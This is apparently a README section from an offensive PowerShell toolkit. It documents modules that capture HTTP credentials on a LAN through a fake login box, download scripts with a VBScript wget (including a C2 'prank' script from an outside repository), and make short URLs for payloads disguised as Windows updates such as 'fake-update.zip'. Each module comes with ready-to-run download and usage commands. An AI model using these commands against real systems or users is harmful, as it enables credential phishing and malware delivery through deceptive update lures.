 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP credentials on local lan (spawns credential box)|Administrator|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/webcreds.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name ".\CaptureServer.ps1" -Force
CaptureServer -AuthType "Basic" -IPAddress "192.168.1.72" -LogFilePath "$Env:TMP\CaptureServer.txt"
Start "http://192.168.1.72:80"
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current directory its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name ".\Start-SimpleHTTPServer.ps1" -Force
Start-SimpleHTTPServer -Port "8080"
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|can be executed using **'cscript'** or **'powershell'** interpreter|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  

<br />

## Module Name
   <b><i>Invoke-ShortUrl.ps1 - UNDER-DEVELOP (NOT STABLE)</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-ShortUrl|TinyUrl url generator|User Land|Dependencies: python3 (http.server)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Invoke-ShortUrl.ps1" -OutFile "Invoke-ShortUrl.ps1"
```

```powershell
#URI: http://127.0.0.1:8080/Update-KB5005101.html
.\Invoke-ShortUrl.ps1 -ServerPort '127.0.0.1:8080'

#URI: http://192.168.1.72:8087/update.html
.\Invoke-ShortUrl.ps1 -ServerPort '192.168.1.72:8087' -PayloadName 'update.html'

#URI: http://192.168.1.72:8087/fake-update.zip ( verbose outputs )
.\Invoke-ShortUrl.ps1 -PayloadName 'fake-update.zip' -Verb 'true'

#URI: http://127.0.0.1:8081/Update-KB5005101.html ( start http.server )
.\Invoke-ShortUrl.ps1 -serverport '127.0.0.1:8081' -startserver 'true'

#URI: http://192.168.1.72:8087/mozlz4-win32.exe ( start http.server )
.\Invoke-ShortUrl.ps1 -Payloadname 'mozlz4-win32.exe' -startserver 'true'
```  
